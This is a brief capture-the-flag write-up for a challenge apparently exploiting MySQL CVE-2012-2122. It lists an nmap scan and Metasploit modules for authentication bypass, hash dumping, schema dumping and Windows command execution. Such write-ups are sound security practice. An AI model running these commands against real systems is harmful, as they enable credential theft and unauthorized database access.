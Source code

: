# They call him Bobby

![Alt text](image_001.png)

### They call him Bobby  - Resolution

<https://bobby-tables.com/>

Seems this version of mysql has a security flaw. - CVE-2012-2122

<https://www.rapid7.com/blog/post/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/>


- nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
- msf> use auxiliary/scanner/mysql/mysql_version
- msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
- msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
- msf> use auxiliary/admin/mysql/mysql_enum #Creds
- msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
- msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds

![Alt text](image_002.png)

![Alt text](image_003.png)



``` Flag :  ```
